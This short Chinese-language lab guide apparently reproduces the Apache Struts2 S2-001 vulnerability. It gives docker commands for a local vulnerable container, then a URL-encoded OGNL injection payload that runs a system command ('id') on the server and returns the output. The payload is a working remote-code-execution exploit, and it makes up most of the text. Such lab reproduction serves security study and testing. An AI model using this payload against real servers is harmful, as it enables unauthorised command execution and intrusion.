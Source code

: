 环境搭建
```
docker build -t s2-001 .
docker run -d -p 9090:8080 s2-001
```

![](./img/676ff2ebc486423092c1aecf497b6947.png)


漏洞复现
```
http://127.0.0.1:9090/demo/validate.action?payload=%25{%23a%3D(new+java.lang.ProcessBuilder(new+java.lang.String[]{%22id%22})).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew+java.io.InputStreamReader(%23b)%2C%23d%3Dnew+java.io.BufferedReader(%23c)%2C%23e%3Dnew+char[50000]%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new+java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()}
```

![](./img/812d4cf7fb624b3fa7ddd8771d0fd497.png)

